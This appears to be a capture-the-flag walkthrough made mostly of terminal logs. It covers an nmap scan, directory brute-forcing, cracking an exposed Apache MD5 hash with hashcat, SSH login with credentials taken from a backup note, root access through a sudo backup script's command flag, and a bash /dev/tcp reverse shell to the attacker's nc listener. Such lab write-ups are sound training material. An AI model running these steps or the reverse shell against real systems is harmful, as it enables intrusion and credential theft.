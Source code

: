 
```basic
┌──(kali㉿kali)-[~]
└─$ nmap -sV -A 10.10.19.1              
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 10:58 EDT
Nmap scan report for 10.10.19.1
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.20 seconds

```

http://10.10.19.1/etc/squid/passwd

```music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.```


```basic
┌──(kali㉿kali)-[~/dirsearch]
└─$ python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.19.1   
/home/kali/dirsearch/thirdparty/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.26.4) or chardet (4.0.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220520

Error Log: /home/kali/dirsearch/logs/errors-21-05-29_11-01-12.log

Target: http://10.10.19.1/

Output File: /home/kali/dirsearch/reports/10.10.19.1/_21-05-29_11-01-12.txt

[11:01:12] Starting: 
[11:01:15] 301 -  308B  - /admin  ->  http://10.10.19.1/admin/
[11:01:21] 301 -  306B  - /etc  ->  http://10.10.19.1/etc/
[11:10:12] 403 -  275B  - /server-status

Task Completed
  
  
  
┌──(kali㉿kali)-[~]
└─$ hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt                                                                                                   1 ⨯
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-5200U CPU @ 2.20GHz, 2195/2259 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward  
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Apache $apr1$ MD5, md5apr1, MD5 (APR)
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Sat May 29 12:07:49 2021 (17 secs)
Time.Estimated...: Sat May 29 12:08:06 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2263 H/s (10.86ms) @ Accel:16 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 38976/14344384 (0.27%)
Rejected.........: 0/38976 (0.00%)
Restore.Point....: 38944/14344384 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidates.#1....: stella123 -> sextoy

Started: Sat May 29 12:07:41 2021
Stopped: Sat May 29 12:08:09 2021
```
 
 
so download borg,,, extracted backup with password from hashcat

```
┌──(kali㉿kali)-[~/Downloads/home/alex/Documents]
└─$ cat note.txt   
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
``` 
 
we get ssh access

sudo -l   reveals a backup.sh

we navigate to that directory /etc/mp3backups  and execute file, 

if you look at code there is a c flag that gives root

sudo ./backup.sh -c "/bin/bash"


seems like we got root but won't respond, 

we create a bash reverse shell

set up nc listner ,

```basic
export RHOST=10.6.65.43
export RPORT=12345
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

 ```bash                                                                                                                                                                        
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lnvp 12345                                                                                                                                                   1 ⨯
listening on [any] 12345 ...
connect to [10.6.65.43] from (UNKNOWN) [10.10.19.124] 60536
root@ubuntu:/etc/mp3backups# cd /root
cd /root
root@ubuntu:/root# ls
ls
root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
root@ubuntu:/root#                                       ```                                                                                                                                 

